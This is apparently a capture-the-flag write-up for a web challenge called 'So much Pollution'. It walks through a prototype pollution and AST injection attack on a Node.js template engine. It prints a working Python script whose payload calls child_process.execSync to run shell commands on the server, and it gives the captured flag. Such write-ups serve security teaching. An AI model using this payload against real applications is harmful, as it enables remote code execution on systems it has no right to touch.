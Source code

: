 ## So much Pollution (Points: 282)

This is how the problem statement goes: 

![image](https://user-images.githubusercontent.com/98008131/164889159-9830a1b2-5cd6-4e78-8c62-2cd472754248.png)

Clicking on the link we are taken to this page, where we must submit a blitz song, which must be on of the 4 options provided.

![image](https://user-images.githubusercontent.com/98008131/164889216-995cf871-7b21-4d02-8b5e-79441e441ab8.png)

Trying to google about AST and pollution, we come across [this](https://www.linkedin.com/pulse/ast-injection-prototype-pollution-joshua-berben/) writeup, a problem very similar to this one. Copying the code from the question, and making few changes to fit to our problem, we have the following:

```python
#!/usr/bin/python

import requests


ENDPOINT = 'http://wannahack.copsiitbhu.co.in:2464/api/submit'

OUTPUT = 'http://wannahack.copsiitbhu.co.in:2464/static/out'


request = requests.post(ENDPOINT, json = {

   "song.name":"The Goose went wild",

       "__proto__.block": {

           "type":"Text",

           "line":"process.mainModule.require('child_process').execSync('cat flag* > /app/static/out')"

       }

})


print (request.text)

print (requests.get(OUTPUT).text)
```

This gives us the following output:

![image](https://user-images.githubusercontent.com/98008131/164889419-22729bf7-83b2-4af7-aeab-e50f1f5c1410.png)

There is our flag. Flag: `wannahack{pr0t0_typ3_p011ut10n_ftw_!!!!}`
